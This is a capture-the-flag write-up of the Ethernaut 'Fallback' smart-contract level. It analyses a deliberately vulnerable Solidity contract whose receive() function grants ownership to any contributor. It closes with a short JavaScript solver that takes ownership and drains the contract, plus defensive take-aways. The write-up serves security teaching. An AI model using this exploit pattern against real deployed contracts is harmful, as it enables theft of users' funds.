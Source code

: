 ```yaml
---
title: "01. Fallback"
date: 2022-10-11
link: "https://ethernaut.openzeppelin.com/level/0x8E500A9082D26dfA7CCdecf0391E0b93B9470266"
tags:
- writeups
---
```


## Goal
- take ownership
- reduce the balance to 0 by withdrawing all the funds

## Contract Analysis

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';
```

We first notice that it uses an external util contract `SafeMath.sol`. With a simple search on the Internet [we find it](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol) & as its name says, there's just a bunch of math functions such as: `mod`, `sub`, `div`, etc. Many contracts make use of this library which is designed to implement safe math operations such that it prevents overflows & other logic errors that would probably come if every developer had to implement their own version.

```solidity
contract Fallback {
	using SafeMath for uint256;
	mapping(address => uint) public contributions;
	address payable public owner;
	
	constructor() public {
		owner = msg.sender;
		contributions[msg.sender] = 1000 * (1 ether);
	}
	...
}
```

First it's [using](https://docs.soliditylang.org/en/develop/contracts.html#using-for) `SafeMath` [for](https://docs.soliditylang.org/en/develop/contracts.html#using-for) `uint256`: that is to prevent overflows when working with `uints` *(see above)*. Then we define `contributions` which is probably going to keep track of all the addresses that contribute *(i.e send ether)* to the contract & it also makes the address of the owner publicly available and [payable](https://docs.soliditylang.org/en/latest/types.html#address).

In the [constructor](https://medium.com/coinmonks/solidity-tutorial-all-about-constructors-46a10610336), which runs only once on deployment, we set the owner of the contract to the [special variable](https://docs.soliditylang.org/en/v0.8.11/units-and-global-variables.html?highlight=msg#special-variables-and-functions) `msg.sender`, that is the address of the one who first deployed the contract. Afterwards, we assign him a contribution of `1000ETH`

```solidity
modifier onlyOwner {
	require(
		msg.sender == owner,
		"caller is not the owner"
	);
	_;
}
```

Then we define a [modifier](https://medium.com/coinmonks/solidity-tutorial-all-about-modifiers-a86cf81c14cb) *(think of it as an attachment to functions that automatically checks a condition prior to executing the function)* which will check if the caller is the owner. This will be probably used in one of the functions, so let's take a look @ them:

```solidity
// Handle contributions from addresses
function contribute() public payable {
	// Cannot contribute unless the nr of
	// ether is greater than 0.001 ether
	// NOTE: msg.value is in wei
	require(msg.value < 0.001 ether);
	contributions[msg.sender] += msg.value;

	// Change the owner of the contract to the highest contributor
	if(contributions[msg.sender] > contributions[owner]) {
		owner = msg.sender;
	}
}

// Retrieves all the contributions for the address that calls 
function getContribution() public view returns (uint) {
	return contributions[msg.sender];
}

// Make a withdraw transaction only 
// if the owner is the sender
function withdraw() public onlyOwner {
	owner.transfer(address(this).balance);
}
```

Keeping in mind our [[#Goal]], the `contribute` function should peek our interest, since it modifies who owns the contract => can `withdraw` funds if we find a way to have the most contributions. Since `1000ETH` is a lot of money, we only have 2 options: 
- trick the contract in thinking that we have more 
- find another piece of code that changes the owner

Luckily for us we haven't yet looked at the last piece of our contract: the `receive()` function which also tinkers with who is the owner of the contract

```solidity
receive() external payable {
	require(msg.value > 0 && contributions[msg.sender] > 0);
	owner = msg.sender;
}
```

So we first check for the following:
- does the amount of wei *(i.e `msg.value`)* sent in the transaction is more than 0 
- is the sender already a contributor?

If those checks pass, we set the owner of the contract to the address of the sender. Notice that the `receive()` function is a [special one](https://docs.soliditylang.org/en/v0.8.12/contracts.html#receive-ether-function) that allows us to send Ether to the contract through `.send()` or `.transfer()`. [Fallback functions](https://docs.soliditylang.org/en/v0.8.12/contracts.html#fallback-function) are used to handle logic in 2 scenarios:
-   contract received ether and no data
-   contract received data but no function matched the function called

## Taking ownership & getting that 💸
Now that we actually understand how the smart contracts operates, let's start interacting with it. First we need to become a contributor so let's send 1 [wei]() to it:

![[write-ups/images/Pasted image 20221011205320.png]]

We confirmed that we're now a contributor so let's try accessing the `receive()` fallback function by sending 1 Wei with `sendTransaction()` & check if we successfully changed ownership to ourselves

![[write-ups/images/Pasted image 20221011205601.png]]

💣 it worked, now let's just `withdraw()` & enjoy our stolen funds 🫠

![[write-ups/images/Pasted image 20221011205901.png]]

I thought it might be interesting to automate the process of exploiting for each challenge so here's some javascript to automatically solve your level:

```javascript
const targetAddr = '<PASTE_INSTANCE_ADDR_HERE>';
console.log(`Exploiting level 1 for target @ ${targetAddr}...`);

console.log('Becoming a contributor with 1 Wei...');
await contract.contribute({value: 1})

console.log('Changing ownership to ourselves...')
await contract.owner()
await contract.sendTransaction({value: 1})
await contract.owner()

console.log('Draining the contract...');
await contract.withdraw()
```


## Take-Aways
- If you implement a fallback function, keep it simple
- Use fallback functions 
	- to **emit payment events to the transaction log**
	- to check simple conditional requirements
- Think twice when it comes to changing ownership of the contract & fund transfers


---

## Refs
- [Solidity Docs](https://docs.soliditylang.org/en/v0.8.17/)
- [[refs/+ Basics of Solidity and Smart Contracts]]

## See Also
- [[write-ups/Ethernaut Wargame]]
